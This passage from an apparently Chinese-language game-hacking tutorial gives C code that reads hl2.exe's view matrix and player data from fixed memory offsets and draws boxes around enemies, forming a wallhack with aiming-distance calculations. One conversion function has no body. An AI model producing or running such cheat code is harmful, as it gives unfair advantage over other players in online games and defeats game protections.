    OutViewWorld[3][2] = InViewWorld[2][3];

    // ---------------------------------------------------------

    // 恒矩阵[0][3] = 竖矩阵[3][0]
    OutViewWorld[0][3] = InViewWorld[3][0];

    // 恒矩阵[1][3] = 竖矩阵[3][1]
    OutViewWorld[1][3] = InViewWorld[3][1];

    // 恒矩阵[2][3] = 竖矩阵[3][2]
    OutViewWorld[2][3] = InViewWorld[3][2];

    // 恒矩阵[3][3] = 竖矩阵[3][3]
    OutViewWorld[3][3] = InViewWorld[3][3];
}

// 4*4 恒矩阵转为竖矩阵
VOID 恒矩阵转为竖矩阵(IN FLOAT InViewWorld[4][4], OUT FLOAT OutViewWorld[4][4])
{
    /*
    转换前 = 恒矩阵
    [0][0] | [0][1] | [0][2] | [3][0]
    [1][0] | [1][1] | [1][2] | [3][1]
    [2][0] | [2][1] | [2][2] | [3][2]
    [0][3] | [1][3] | [2][3] | [3][3]

    转换后 = 竖矩阵
    [0][0] | [0][1] | [0][2] | [0][3]
    [1][0] | [1][1] | [1][2] | [1][3]
    [2][0] | [2][1] | [2][2] | [2][3]
    [3][0] | [3][1] | [3][2] | [3][3]
    */
}

int main(int argc, char *argv[])
{
    DWORD Pid = GetProcessIdByName(L"hl2.exe");
    DWORD handle = (DWORD)GetProcessHandle(Pid);

    DWORD module_base = GetProcessModuleHandle(Pid, L"engine.dll");
    DWORD 矩阵基地址 = module_base + 0x596EF0;

    printf("模块句柄: %d --> 矩阵基址: 0x%x \n\n", module_base, 矩阵基地址);

    FLOAT ViewWorld[4][4] = { 0 };
    FLOAT HengViewWorld[4][4] = { 0 };
    FLOAT ShuViewWorld[4][4] = { 0 };

    // 读入竖矩阵
    ReadProcessMemory((HANDLE)handle, (PVOID)矩阵基地址, ViewWorld, 64, 0);

    printf("默认竖矩阵: \n");
    printf("[0][0] = %.4f | [0][1] = %.4f | [0][2] = %.4f | [0][3] = %.4f \n", ViewWorld[0][0], ViewWorld[0][1], ViewWorld[0][2], ViewWorld[0][3]);
    printf("[1][0] = %.4f | [1][1] = %.4f | [1][2] = %.4f | [1][3] = %.4f \n", ViewWorld[1][0], ViewWorld[1][1], ViewWorld[1][2], ViewWorld[1][3]);
    printf("[2][0] = %.4f | [2][1] = %.4f | [2][2] = %.4f | [2][3] = %.4f \n", ViewWorld[2][0], ViewWorld[2][1], ViewWorld[2][2], ViewWorld[2][3]);
    printf("[3][0] = %.4f | [3][1] = %.4f | [3][2] = %.4f | [3][3] = %.4f \n", ViewWorld[3][0], ViewWorld[3][1], ViewWorld[3][2], ViewWorld[3][3]);
    printf("\n\n");

    竖矩阵转横矩阵(ViewWorld, HengViewWorld);

    printf("转为横矩阵: \n");
    printf("[0][0] = %.4f | [0][1] = %.4f | [0][2] = %.4f | [0][3] = %.4f \n", HengViewWorld[0][0], HengViewWorld[0][1], HengViewWorld[0][2], HengViewWorld[0][3]);
    printf("[1][0] = %.4f | [1][1] = %.4f | [1][2] = %.4f | [1][3] = %.4f \n", HengViewWorld[1][0], HengViewWorld[1][1], HengViewWorld[1][2], HengViewWorld[1][3]);
    printf("[2][0] = %.4f | [2][1] = %.4f | [2][2] = %.4f | [2][3] = %.4f \n", HengViewWorld[2][0], HengViewWorld[2][1], HengViewWorld[2][2], HengViewWorld[2][3]);
    printf("[3][0] = %.4f | [3][1] = %.4f | [3][2] = %.4f | [3][3] = %.4f \n", HengViewWorld[3][0], HengViewWorld[3][1], HengViewWorld[3][2], HengViewWorld[3][3]);
    printf("\n\n");

    system("pause");
    return 0;
}
```

如下图示转换后的输出效果，读者可自行对比转换结果是否有问题；



#### 7.4.2 实现矩阵透视

当有了世界矩阵之后那么实现透视功能将会变得很容易，首先第一步还是要将矩阵信息读取到`ViewWorld`数组内，当数组内有了矩阵之后，接下来就是确定本人坐标位置，以及当前玩家数量信息，该信息的获取可参考7.2中所使用的方法；

```c
// 读取出竖矩阵数据
// 矩阵 ViewWorld[4][4] => 4*4=16 => 16*word = 64
ReadProcessMemory((HANDLE)游戏进程句柄, (PVOID)矩阵基地址, ViewWorld, 64, 0);

// 视角也就是屏幕的一半
视角宽度 = 游戏窗口宽度 / 2;
视角高度 = 游戏窗口高度 / 2;

自瞄最大距离 = 10000;

// 获取本人坐标数据
本人基地址 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, Server模块句柄 + 十六转十进制("0x4F2FEC"));
本人阵营 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, 本人基地址 + 500);

本人坐标.X坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 本人基地址 + 648 - 8);
本人坐标.Y坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 本人基地址 + 648 - 4);
本人坐标.Z坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 本人基地址 + 648);

// 循环玩家数量
玩家个数 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, Server模块句柄 + 十六转十进制("0x588878"));
```

接着通过循环的方式获取到敌人阵营信息，将队友排除在外不进行绘制，接着在判断敌人的血量是否已被清空，如果清空则也需要跳出绘制流程；

```c
for (int x = 0; x <= 玩家个数; 人物循环 = x, x++)
{
// 得到敌人阵营,判断是否是自己人,如果是自己人则跳过绘制
敌人基地址 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, Server模块句柄 + 十六转十进制("0x4F2FFC") + (人物循环 - 1) * 16);
敌人阵营 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, 敌人基地址 + 500);
if (本人阵营 == 敌人阵营)
{
  continue;
}

// 判断敌人是否死亡,如果死亡则不需要绘制了
敌人血量 = ReadMemory<DWORD>((HANDLE)游戏进程句柄, 敌人基地址 + 228);
if (敌人血量 == 0 || 敌人血量 <= 1)
{
  continue;
}
```

最后则是读入敌人坐标位置，并依次计算出，相机X，相机Y，相机Y2的具体参数，通过该相机参数我们就可以计算出方框的高度，以及敌人准星距离，三维人敌距离等参数，此时只需要对方框进行绘制即可，此处将绘制流程通过`DrawBox`函数即可实现；

```c
// 获取敌人坐标数据
敌人坐标.X坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 敌人基地址 + 648 - 8);
敌人坐标.Y坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 敌人基地址 + 648 - 4);
敌人坐标.Z坐标 = ReadMemory<FLOAT>((HANDLE)游戏进程句柄, 敌人基地址 + 648);

// 竖矩阵算法，取出来的是本人坐标数据
相机X = ViewWorld[2][0] * 敌人坐标.X坐标 + ViewWorld[2][1] * 敌人坐标.Y坐标 + ViewWorld[2][2] * 敌人坐标.Z坐标 + ViewWorld[2][3];
缩放比例 = 1 / 相机X;
if (相机X < 0)
{
  continue;
}

// 计算竖矩阵敌人相机位置
相机X = 视角宽度 + (ViewWorld[0][0] * 敌人坐标.X坐标 + ViewWorld[0][1] * 敌人坐标.Y坐标 + ViewWorld[0][2] * 敌人坐标.Z坐标 + ViewWorld[0][3]) * 缩放比例 * 视角宽度;
相机Y = 视角高度 - (ViewWorld[1][0] * 敌人坐标.X坐标 + ViewWorld[1][1] * 敌人坐标.Y坐标 + ViewWorld[1][2] * (敌人坐标.Z坐标 - 8) + ViewWorld[1][3]) * 缩放比例 * 视角高度;
相机Y2 = 视角高度 - (ViewWorld[1][0] * 敌人坐标.X坐标 + ViewWorld[1][1] * 敌人坐标.Y坐标 + ViewWorld[1][2] * (敌人坐标.Z坐标 + 78) + ViewWorld[1][3]) * 缩放比例 * 视角高度;

// 得到方框参数
方框高度 = 相机Y - 相机Y2;
方框宽度 = 方框高度 * 0.526515151552;

敌人准星距离 = 取准星距离(视角宽度, 视角高度, 相机X, 相机Y);
三维人敌距离 = 取整(取敌人距离(本人坐标, 敌人坐标) / 10);

DrawBox(相机X - 方框宽度 / 2, 相机Y2, 方框宽度, 方框高度, 1, D3DCOLOR_RGBA(0, 160, 32, 240));
printf("屏幕坐标X = %f | 屏幕坐标Y = %f | 方框宽度 = %f | 方框高度 = %f | 敌人血量: %d \n", 相机X - 方框宽度 / 2, 相机Y2, 方框宽度, 方框高度, 敌人血量);
```

读者可自行完善上述代码片段，或在本书课件中获取到完整案例，当该程序被运行后，此时屏幕中将会出现完整的绘制菜单，读者可通过按键动态的选择功能的开启及关闭，输出效果图如下图所示；



